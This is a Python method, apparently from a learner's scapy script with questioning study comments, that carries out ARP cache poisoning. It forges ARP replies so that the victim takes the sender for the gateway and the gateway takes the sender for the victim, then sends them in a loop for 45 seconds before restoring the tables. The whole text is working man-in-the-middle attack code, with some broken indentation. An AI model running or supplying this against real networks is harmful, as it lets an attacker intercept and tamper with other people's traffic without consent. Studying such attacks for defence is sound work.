

def poison(self):
        # 1) Setting-up/initializing details of victim. Will run/send packets later, in step 3.
        # poison_victim is my variable but it takes on the FUNCTION ARP()
        poison_victim = ARP()
        poison_victim.op = 2  # Question. ( the other op we saw was op='who-is')
        # I determine the SOURCE IP of the packet, as the gateway !! - Sneaky
     poison_victim.psrc = self.gateway   # why preceded by 'p' in pdst and psrc ??
     poison_victim.pdst = self.victim
     poison_victim.hwdst = self.victimmac
        print(f'ip src: {poison_victim.psrc} (ie the gateway - not my machine!')
        print(f'ip dst: {poison_victim.pdst}')
        print(f'mac dst: {poison_victim.hwdst}')
        print(f'mac src: {poison_victim.hwsrc}')  # Question: shouldn't this be set - it was not set yet.
        print(poison_victim.summary())
        print('-' * 30)
        # 2) Setting-up/initializing details of gateway. Will run/send packets later, in step 3.
        poison_gateway = ARP()
        poison_gateway.op = 2 # Question. ( the other op we saw was op='who-is')
        # I determine the SOURCE of the packet, as the victim/target !! - Sneaky
        poison_gateway.psrc = self.victim
        poison_gateway.pdst = self.gateway
        poison_gateway.hwdst = self.gatewaymac
        print(f'ip src: {poison_gateway.psrc}')
        print(f'ip dst: {poison_gateway.pdst}')
        print(f'mac dst: {poison_gateway.hwdst}')
        print(f'mac_src: {poison_gateway.hwsrc}')
        print(poison_gateway.summary())
        print('-' * 30)

        # 3)
        print(f'Beginning the ARP poison (ie sending the packets).Ffor 45 seconds.')
        t_end = time.time() + 45  # 45 seconds
        while time.time() < t_end:
        #while True: # keep running the poison all the while we need to eavesdrop - until KeyboardInterrupt of ^C
            sys.stdout.write(str(time.strftime("%H:%M:%S"))+"~")
            sys.stdout.flush()
            #try:
            send(poison_victim)
            send(poison_gateway)
            time.sleep(2)
        self.restore()